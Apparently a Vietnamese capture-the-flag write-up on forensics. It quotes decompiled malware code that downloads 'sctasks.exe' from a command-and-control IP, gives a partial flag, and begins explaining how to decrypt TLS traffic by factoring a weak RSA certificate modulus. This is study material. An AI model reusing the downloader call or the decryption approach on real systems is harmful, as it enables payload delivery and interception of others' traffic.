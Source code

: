 ```c
        {
          if ( !v0 )
            break;
          v38 = v35[(_QWORD)v37];
          if ( !v38 )
            break;
          *v35 = v38;
          --v0;
          ++v35;
          --v36;
        }
        while ( v36 );
      }
      v39 = v35 - 1;
      if ( v36 )
        v39 = v35;
      *v39 = 0;
    }
    return URLDownloadToFileA(0, "https://10.10.70.114/sctasks.exe", v40, 0, 0);
  }
  return result;
}
```

Hàm này tải những file sau (`encrypted.bin`, `2.txt` và `sctasks.exe`) từ IP `10.10.70.114` khá chắc chắn đây là một server C2, trong đây cũng có phần 1 của flag

`L3AK{AV_evasion_is_easy`

Sau đó lục lại trong memdump thì không thấy gì, đã tìm qua filescan, eventlog, tìm key khôi phục thư mục `Quarantine` nhưng cũng không thấy gì cả. Do các packet trong file pcap bị mã hoá TLSv1.2 cho nên khi tìm key TLS để decrypt traffic cũng không có trong mempdump (Bởi vì nó không có, mà phải tìm trong file pcap xdd). Thế là team stuck zzz

Sau giải mới biết rằng sau mỗi một phần của flag thì ta sẽ chuyển sang file(stage) tiếp theo

## Giai đoạn 2: Network forensics

Chỉ filter IP của server C2 cho tiện: `ip.addr == 10.10.70.114`

File pcap tải về đã được mã hoá bởi **TLSv1.2**. Khi kiểm tra quá trình bắt tay (handshake) giữa server và client, tại **frame 10 (Server Hello, Certificate)**, ta thấy traffic sử dụng **cipher suite `TLS_RSA_WITH_AES_256_GCM_SHA384`**. Đây là phương thức mã hoá sử dụng RSA để trao đổi key.

Trong RSA, nếu modulus(n) (thành phần chính của public key, với n=p×q) được sinh ra quá nhỏ hoặc không đủ mạnh (ví dụ sử dụng prime yếu hoặc reuse), thì có thể factor hoá nnn thành ppp và qqq. Từ đó, ta tính được **private key** để giải mã toàn bộ TLS traffic.. Vậy nên ta sẽ copy dữ liệu của `tls.handshake.certificate` vào 1 file để kiểm tra bằng `openssl x509`

```sh
$ openssl x509 -in tlscert -inform DER -text -noout -modulus
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            76:a9:af:24:d7:1a:c3:aa:fd:d3:ca:b1:25:fd:0d:f2:90:6a:7e:76
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: C=AU, ST=Some-State, O=Internet Widgits Pty Ltd
        Validity
            Not Before: Jun 15 01:09:12 2025 GMT
            Not After : Jun 15 01:09:12 2026 GMT
        Subject: C=AU, ST=Some-State, O=Internet Widgits Pty Ltd
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                Public-Key: (1323 bit)
                Modulus:
```